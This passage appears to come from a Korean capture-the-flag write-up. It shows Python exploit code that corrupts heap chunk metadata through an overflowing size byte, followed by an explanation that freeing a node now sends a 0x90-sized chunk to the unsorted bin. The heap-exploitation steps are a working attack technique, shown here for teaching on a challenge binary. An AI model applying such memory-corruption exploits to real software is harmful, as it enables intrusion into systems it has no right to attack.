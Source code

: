 ```python
add(0x78, b'A'*0x38, b'0')
add(0x78, b'A'*0x38, b'1')
add(0x78, b'A'*0x38, b'2')
delete(0)
delete(1)
delete(2)
add(0x78, b'A'*8 + p64(0x71) + b'B'*0x30, b'0')
add(0x78, b'A'*0x78, b'1')
add(0x78, b'A'*0x78 + b'\x91', b'2')
```

#### 4.1.2. Free chunk into unsorted bin
![03_heap_unsorted_bin](/assets/img/posts/HS2024-1/ROUND4/vspm/v2/03_heap_unsorted_bin.png)
이제 1번 노드를 free하면, 0x90크기의 메모리가 free되게된다.
